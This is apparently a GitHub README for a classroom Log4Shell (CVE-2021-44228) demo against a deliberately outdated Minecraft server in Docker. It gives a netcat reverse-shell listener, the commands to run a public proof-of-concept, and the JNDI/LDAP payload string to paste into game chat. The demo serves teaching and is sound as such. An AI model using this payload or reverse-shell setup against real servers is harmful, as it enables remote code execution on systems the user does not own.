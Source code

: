 # Log4Shell (CVE-2021-44228) minecraft demo
This demo is used at education fairs to give potential future students an idea of the cybersecurity department at HTL Villach and on how everyday applications can be exploited


**Note:** This entire demo uses Minecraft 1.8.8
## Attacker
The attacker in this scenario is using the PoC by kozmer. https://github.com/kozmer/log4j-shell-poc
All credit belongs to them. 
**Note:** All commands need to be executed in attacker/

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory. 
```py
$ python3 poc.py --userip <ip of docker-host> --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://<ip of docker-host>:1389/a}

Listening on 0.0.0.0:1389
```


This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>

## Victim
On the victim instance we are using an outdated and therefore [vulnerable version of JDK (jdk1.8.0_20) ](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).

#### Initial setup


To get our Minecraft server running we have to build our Docker image and run it.

**Note:** For a successful build you need to obtain your own copy of the Minecraft Vanilla 1.8.8 Server *(can't be shared because of Mojang's EULA)*
A possible source could be [MCVERSIONS.NET](https://mcversions.net/download/1.8.8)

After obtaining the file save it in victim/ as server.jar 

```docker
cd target/
docker build target/ -t minecraft-demo
```

#### Running the vulnerable server
Run the vulnerable Minecraft server we just built using docker
```
docker run --name vulnerable-server -p 25565:25565 minecraft-demo
```
It's likely that your container freezes or gets stuck after exploitation. In that case you can kill it using the following command:
```
docker kill vulnerable-server
```

#### Exploiting the server

To exploit the vulnerabilty simply send the string provided by the *poc.py* in the game chat.
```
${jndi:ldap://<ip of docker-host>:1389/a}
```
![image](https://github.com/felixslama/log4shell-minecraft-demo/assets/79058712/b3cc9c19-ca14-456c-bf7f-7246bb6adf58)
